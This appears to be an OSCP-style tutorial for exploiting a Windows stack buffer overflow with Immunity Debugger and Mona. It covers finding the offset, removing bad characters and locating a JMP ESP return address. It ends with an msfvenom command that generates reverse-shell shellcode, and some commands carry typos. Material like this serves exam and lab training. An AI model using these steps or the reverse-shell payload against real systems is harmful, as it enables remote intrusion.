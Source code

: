 <h2>Starting from setting up and environment with Mona.</h2>

<h3>SettingUp an Config with Mona.</h3>
<ul></ul>
<li>In the bottom of the Immunity Debugger, we need to set the Config for Mona so that we can be able to Analysis Bytearray later which may comes handy while finding bad chars.</li>
<code><em>!mona config -set workingfolder C:\mona\oscp\</em></code>
Now, we have set the Configuration to that folder so while comparing later with esp, we will have to take care of this.

<li>Keep the fuzzing going on and notice the Bytes at which it gets crashed???? :It is helpful while creating pattern:</li>
<li>Create a pattern with <code>Pattern_create.rb -l CRASHEDBYTE </code>which is probably inside metasploit-framework</li>
<li>We got the pattern now we need to insert it into exploit in order to Figure out it's OFFSET </li>
<li>We can either find offset via  <code><em>!mona findmsp -distance CRASHEDBYTE</em></code> Or with Pattern_offset.rb -l CRASHEDBYTE -q ValueInEIP</li>
<li>Now we know the offset so put it inside the Exploit and we can also keep RTN as BBBB to reflect it in the Register.</li>
<li>Run the BADCHARS, (You can exclude \x00)and keep that payload to exploit in the the place of payload and set the Byte array for mona to <code><em>!mona bytearray -b "\x00" </code> First with  \x00. Remember we set the config at the begining? So the bytearray.bin is stored inside that config and we need that.</em></li>
<li>Watch out the MONA COMPARISON, and see the bad chars.</li>
<li>REPEAT: Iterate it while erasing the BadChars from the Exploit and Including the badchars in !mona bytearray, Remember that most of the time it's sequential and the early index is most of the times a bad chars. </li>
<li>COMPARE CODE: <code>!mona compare -f c:\mona\oscp\bytearray.bin -a esp</code></li>
<li>Iterate above till we get the MonaComparison Status to Unmodified.</li>
<li>Call it either finding a JMP state or Return address, we can find it via</li>
<li><code><em>!mona jmp -r esp -cpb "x\00\xALLTHEBADCHARSYOUFOUND.</em></code></li>
<li>See the Log data results and keep one JMP Esp 0x00 Addresss for later use.</li>
<li>If the address is suppose, 0x1129AF, then there comes Big Endian and Little Endian so </li>
<li>Manage the exploit.py with Return Address in the rtn variable but in different format like this: "\xAF\x29\x11" probably as a LSB perspective right?</li>
<li>Now is the time to generate Payload so BADCHARS comes here to...</li>
<code><em>msfvenom -p windows/shell_riverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x00\xALLTHEBADCHARS" -f c </code>or you can use py too</em>
<li>You get the shellcode now manipulate the Exploit payload with the Generated and make sure to use the string inside ("") if it's format c and in such a way that there should be, OFFSET, RETN, PADDING = "\x90" * 16 <u>No Operation because it's a bad practice to run the shellcode instantly so we are using No operation to skip for a while.</u></li>
<li>Leave the PostFix as it is or give something as it doesn't really matter.</li>
<li>You are good to go now. :wink:</li>

